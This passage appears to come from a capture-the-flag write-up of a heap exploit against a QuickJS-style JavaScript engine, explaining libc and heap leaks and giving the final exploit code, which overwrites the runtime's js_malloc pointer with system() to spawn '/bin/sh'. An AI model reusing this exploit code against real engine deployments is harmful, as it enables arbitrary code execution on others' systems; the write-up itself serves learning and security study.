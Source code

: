 Then, I set a breakpoint and used `tel` gdb command to inspect the pointers that come after `str`'s buffer on the heap. I could find a pointer with a constant offset from libc base and another pointer with a constant offset from heap base. I used these to leak libc and heap base.

## Getting RCE

The `JSContext *ctx` that gets passed as the first argument to many js functions has a field named `rt` which is a pointer to `JSRuntime`. `JSRuntime` also has a field `JSMallocFunctions mf`, and another one `JSMallocState malloc_state`. `mf` has 4 function pointers, the first of which is `js_malloc`. Its signature shows that the first argument to it is a `JSMallocState *`. So, if we can overwrite the `ctx->rt->mf.js_malloc` function pointer with `system()` and we can write `"/bin/sh"` at `&(ctx->rt->malloc_state)`, we will be able to call `system("/bin/sh")` by triggering `js_malloc`. Just before doing that, I set the `shape` field of `arr`'s object metadata to point to the middle of some area near the base of the heap that seemed to contain just zero. This will prevent segfaults in an inline function `find_own_property` called by `JS_SetPropertyInternal`, which is the function used for writing to an index of `arr`. In the end, allocating any object will trigger `js_malloc` and give us a shell. This is the final part of the exploit:

```js
// leak the heap base low and high dwords by reading them from the heap
let heap_base_high = read_dword(0x54);
let heap_base_low = read_dword(0x50) - 0xd60;
console.log(heap_base_high.toString(16));
console.log(heap_base_low.toString(16));

// set the 'shape' property of 'arr' to the middle of an area with zeros.
// this will prevent segfaults in find_own_property which is an inlined function called
// by JS_SetPropertyInternal when performing writes to an index of arr
uaf_arr[6] = heap_base_low + 0x200;
uaf_arr[7] = heap_base_high;

// set the data pointer of arr to point to the heap base
uaf_arr[0xe] = heap_base_low;
uaf_arr[0xf] = heap_base_high;

// leak (main_arena+96), which is a libc address, by reading it off the heap
let libc_leak_low = read_dword(0x100);
let libc_leak_high = read_dword(0x104);
console.log(libc_leak_high.toString(16));
console.log(libc_leak_low.toString(16));

// Math.min(uaf_arr);

// set ctx->rt->mf->js_malloc to system()
arr[0xa8] = libc_leak_low - 0x1a9a50;	// libc-dependant offset
arr[0xa9] = libc_leak_high;

// write "/bin/sh\0" at ctx->rt->malloc_state's location, which gets passed to js_malloc as the first argument
arr[0xb0] = 0x6e69622f;
arr[0xb1] = 0x0068732f;

// trigger js_malloc, which will now do system("/bin/sh")
var x = {a: 1};
```
